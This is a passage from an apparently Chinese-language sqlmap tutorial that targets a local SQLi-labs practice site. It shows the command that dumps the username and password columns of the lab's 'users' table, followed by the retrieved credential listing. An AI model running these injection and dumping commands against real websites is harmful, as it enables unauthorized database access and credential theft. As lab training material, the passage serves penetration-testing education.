 ```shell
+----------+-------------+

[22:56:01] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[22:56:01] [WARNING] your sqlmap version is outdated

[*] ending @ 22:56:01 /2023-05-08/
```

这不仅能看到字段，还能看到字段的属性

**注意：将--columns缩写成-C 字段名**

**获取表中字段内的信息**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap --dbms="mysql" -u "http://192.168.8.121/sql-lab/Less-1/?id=1" -D security -T users -C userna
me,password --dump
```

结果如下

```shell
[22:59:43] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'security'
[22:59:43] [WARNING] the SQL query provided does not return any output
[22:59:43] [INFO] retrieved: 'admin'
[22:59:43] [INFO] retrieved: 'admin'
[22:59:43] [INFO] retrieved: 'admin1'
[22:59:43] [INFO] retrieved: 'admin1'
[22:59:43] [INFO] retrieved: 'admin2'
[22:59:43] [INFO] retrieved: 'admin2'
[22:59:43] [INFO] retrieved: 'admin3'
[22:59:43] [INFO] retrieved: 'admin3'
[22:59:43] [INFO] retrieved: 'admin4'
[22:59:43] [INFO] retrieved: 'admin4'
[22:59:43] [INFO] retrieved: 'crappy'
[22:59:43] [INFO] retrieved: 'secure'
[22:59:43] [INFO] retrieved: 'Dumb'
[22:59:43] [INFO] retrieved: 'Dumb'
[22:59:43] [INFO] retrieved: 'dumbo'
[22:59:43] [INFO] retrieved: 'dhakkan'
[22:59:43] [INFO] retrieved: 'genious'
[22:59:43] [INFO] retrieved: 'superman'
[22:59:43] [INFO] retrieved: 'I-kill-you'
[22:59:43] [INFO] retrieved: 'Angelina'
[22:59:43] [INFO] retrieved: 'mob!le'
[22:59:43] [INFO] retrieved: 'batman'
[22:59:43] [INFO] retrieved: 'p@ssword'
[22:59:43] [INFO] retrieved: 'Dummy'
[22:59:43] [INFO] retrieved: 'stupidity'
[22:59:43] [INFO] retrieved: 'stupid'
Database: security
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| admin4   | admin4     |
| secure   | crappy     |
```